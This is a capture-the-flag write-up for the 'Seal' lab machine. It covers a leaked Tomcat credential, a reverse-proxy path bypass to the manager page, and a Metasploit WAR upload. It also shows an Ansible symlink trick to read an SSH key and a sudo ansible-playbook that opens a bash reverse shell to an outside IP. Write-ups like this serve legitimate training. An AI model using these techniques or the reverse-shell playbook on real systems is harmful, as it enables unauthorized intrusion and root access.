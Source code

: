 ## Info
### Credential

 User | Password      | Service | Note
------|---------------|---------|------
//    |               |         |email: admin@seal.htb
tomcat|`42MrHBf*z8{Z%`|Tomcat   |
luis  |               |System   |
### System
- hostname: `seal.htb`

### HTTPS
- Nginx 1.18.0
- Apache Tomcat/9.0.31

### HTTP (8080)
- GitBucket

## Path
### Foothold
0. When I played this machine, it was still in Release Arena (RA), so I needed to download and use another VPN file for connecting to RA. This wasted me some time to figure out the problem. : (
1. The service of HTTPS was running Apache Tomcat/9.0.31, revealed in the 404 error message.
2. An issue of the repo "seal_market" on the GitBucket (port `8080`) talked about they using Nginx, not Tomcat, for mutual (certificate based) authentication, because of the server load balance. So I thought the authentication on HTTPS, which was the "seal_maeket", might be vulnerable.
3. Found the credential in the commit `971f3aa`. Also, the commit `db85dc0` specified `/manger/html`, not `/manager`, so I logged into Tomcat via `/manager/status`.
4. Since the architecture of the web service was "Nginx -> Tomcat", according to the "Path Interpretation" graph from [this article](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html), I constructed the path `https://seal.htb/;foo=bar/manager/html` to visit the `/manager/html` page.
5. Use `msfvenom` to generate `rev.war`, but when uploading it, the machine gave me a 403 error from Tomcat. After trying, I used `msfconsole` to run the exploit `multi/http/tomcat_mgr_upload` and manually executed it after uploaded, then got the shell.

### User
1. The file `/opt/backups/playbook/run.yml` was running. According to the [documentation](https://docs.ansible.com/ansible/2.4/synchronize_module.html), we could create symlink in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`, and it would be copied to `/opt/backups/archives`, then we can read it. So I used it to copy `/home/luis.ssh/id_rsa` and logged into SSH. 
> `copy_links`: Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink. 
2. Gain user.

### Root
1. Found `luis` can run `anisble-playbook` using `sudo` without password, so I crafted a playbook and ran it with `sudo` to got a root shell.
(The `ansible` on the machine was an old version, it took me so long to find [the correct syntax](https://stackoverflow.com/questions/66431114/ansible-cant-run-any-command-or-shell).)
```
$ cat << EOF > root.playbook.yml
- hosts: localhost 
  remote_user: root
  become: yes
  become_method: sudo

  tasks:
    - command: /usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.16.7/13337 0>&1'
EOF
$ sudo ansible-playbook root.playbook.yml
```
2. Gain root!

